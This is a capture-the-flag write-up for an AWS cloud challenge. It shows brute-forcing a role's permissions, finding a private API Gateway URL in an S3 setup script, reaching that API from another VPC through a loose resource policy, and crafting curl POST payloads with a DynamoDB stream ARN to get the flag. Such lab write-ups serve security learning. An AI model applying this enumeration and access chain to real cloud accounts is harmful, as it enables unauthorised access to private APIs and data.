


# Orchestration but private. Or are they?

## Task



> Syndicate conducts a lot of private communications, from their internal network. And they love serverless
architecture. With everything you’ve learned, find out more about them.

## Solution

Brute-force enumeration of AWS permissions for the `SecretDataViewerRole` role with [bf-aws-permissions](https://github.com/carlospolop/bf-aws-permissions)
revealed that it has rights to list event source mappings for Lambda functions:

```
➜  ~ bash bf-aws-permissions.sh -p secret-data-viewer -r us-east-1 -v -s lambda
Entity Type: role
Entity Name: SecretDataViewerRole
Attached Policies

An error occurred (AccessDenied) when calling the ListAttachedRolePolicies operation: User: arn:aws:sts::816362139463:assumed-role/SecretDataViewerRole/test is not authorized to perform: iam:ListAttachedRolePolicies on resource: role SecretDataViewerRole because no identity-based policy allows the iam:ListAttachedRolePolicies action

=====================


Inline Policies

An error occurred (AccessDenied) when calling the ListRolePolicies operation: User: arn:aws:sts::816362139463:assumed-role/SecretDataViewerRole/test is not authorized to perform: iam:ListRolePolicies on resource: role SecretDataViewerRole because no identity-based policy allows the iam:ListRolePolicies action

=====================


Checking for simulate permissions...
Current arn: arn:aws:iam::816362139463:role/SecretDataViewerRole

An error occurred (AccessDenied) when calling the SimulatePrincipalPolicy operation: User: arn:aws:sts::816362139463:assumed-role/SecretDataViewerRole/test is not authorized to perform: iam:SimulatePrincipalPolicy on resource: arn:aws:iam::816362139463:role/SecretDataViewerRole because no identity-based policy allows the iam:SimulatePrincipalPolicy action
You don't have simulate permissions!


Do you want to continue with brute-forcing? (y/N): y
[+] You have permissions for: lambda list-event-source-mappings (aws --profile secret-data-viewer --region us-east-1 lambda list-event-source-mappings )
{
    "EventSourceMappings": [
        {
            "UUID": "fbbb4c8f-3fae-42f1-9cfe-d11dcc62b78a",
            "StartingPosition": "LATEST",
            "BatchSize": 100,
            "MaximumBatchingWindowInSeconds": 0,
            "ParallelizationFactor": 1,
            "EventSourceArn": "arn:aws:dynamodb:us-east-1:816362139463:table/UserDetails/stream/2023-12-21T11:27:38.296",
            "FunctionArn": "arn:aws:lambda:us-east-1:816362139463:function:private-api-lambda",
            "LastModified": "2023-12-21T04:35:00-08:00",
            "LastProcessingResult": "No records processed",
            "State": "Enabled",
            "StateTransitionReason": "User action",
            "DestinationConfig": {
                "OnFailure": {}
            },
            "MaximumRecordAgeInSeconds": -1,
            "BisectBatchOnFunctionError": false,
            "MaximumRetryAttempts": -1,
            "TumblingWindowInSeconds": 0,
            "FunctionResponseTypes": []
        }
    ]
}
```

This is cool, but we can't get into the DynamoDB table or the Lambda function any further.

In the `recondatabucket` S3 bucket from the [second challenge](02-orchestration-but-not-really-incognito.md), we can
find the `custom/install.sh` file:

```
➜  ~ aws s3 cp s3://recondatabucket/custom/install.sh -
#!/bin/bash
yum update -y
yum install -y httpd php
systemctl start httpd
systemctl enable httpd
usermod -a -G apache ec2-user
chown -R ec2-user:apache /var/www
chmod 2775 /var/www
find /var/www -type d -exec chmod 2775 {} \;
find /var/www -type f -exec chmod 0664 {} \;
cat << 'EOF' > /var/www/html/index.php
<!DOCTYPE html>
<html>
<body>
    <center>
    <?php
    # Get the instance ID from meta-data and store it in the $instance_id variable
    $url = "http://169.254.169.254/latest/meta-data/instance-id";
    $instance_id = file_get_contents($url);
    # Get the instance's availability zone from metadata and store it in the $zone variable
    $url = "http://169.254.169.254/latest/meta-data/placement/availability-zone";
    $zone = file_get_contents($url);
    # Get Private Secret
    $url = "https://y3xh0xdxee.execute-api.us-east-1.amazonaws.com/dev/v1";
    $secret = file_get_contents($url);
    ?>
    <h2>EC2 Instance ID: <?php echo $instance_id ?></h2>
    <h2>Availability Zone: <?php echo $zone ?></h2>
    </center>
</body>
</html>
EOF
```


The script has a URL for an API Gateway endpoint, but we can't reach it. The code looks like it's pretending to be an
EC2 instance setup script, so maybe that endpoint is only available from the VPC. Unfortunately, we don't have access
into the Syndicate's VPC. But here's the catch with a private API Gateway – if the resource policy is loose, it may be
accessible from any other VPC in the same region.

E.g., per AWS docs https://docs.aws.amazon.com/apigateway/latest/developerguide/apigateway-private-apis.html:



To try to access the API GW endpoint we need to create an interface VPC endpoint for S3 in `us-east-1`, setup an EC2
instance, launch the instance, connect to it and try to access the API from it. This is also described in one of the
labs on [attackdefense.com](https://attackdefense.com/challengedetailsnoauth?cid=2277).

From our EC2 instance:

```
   ,     #_
   ~\_  ####_        Amazon Linux 2023
  ~~  \_#####\
  ~~     \###|
  ~~       \#/ ___   https://aws.amazon.com/linux/amazon-linux-2023
   ~~       V~' '->
    ~~~         /
      ~~._.   _/
         _/ _/
       _/m/'
Last login: Sun Feb 18 10:07:11 2024 from 18.206.107.27
[ec2-user@ip-172-31-2-113 ~]$ curl https://y3xh0xdxee.execute-api.us-east-1.amazonaws.com/dev/v1
{"success": false, "message": "Method Not Allowed. Only POST requests are allowed."}
```

We were able to access the API! Just need to figure out the right request method and payload format:

```
[ec2-user@ip-172-31-2-113 ~]$ curl -XPOST https://y3xh0xdxee.execute-api.us-east-1.amazonaws.com/dev/v1
{"success": false, "message": "Invalid JSON format in the request body."}

[ec2-user@ip-172-31-2-113 ~]$ curl -XPOST https://y3xh0xdxee.execute-api.us-east-1.amazonaws.com/dev/v1 -d "{}"
{"success": false, "message": "Missing \"invoker_arn\" in request body."}
```

Remember the DynamoDB table and the Lamdba function we saw in the output of the `lambda list-event-source-mappings`
command. Assuming the `private-api-lambda` mimics the API handler, what if we try to pass the DynamoDB table stream
as the invoker ARN? 

```
[ec2-user@ip-172-31-2-113 ~]$ curl -XPOST https://y3xh0xdxee.execute-api.us-east-1.amazonaws.com/dev/v1 -d "{\"invoker_arn\":\"arn:aws:dynamodb:us-east-1:816362139463:table/UserDetails/stream/2023-12-21T11:27:38.296\"}" | jq
{
  "success": true,
  "message": "Request processed successfully.",
  "data": {
    "flag": "FLAG{bba0d3031809f0836177dd70b6c41e8b}"
  }
}
```
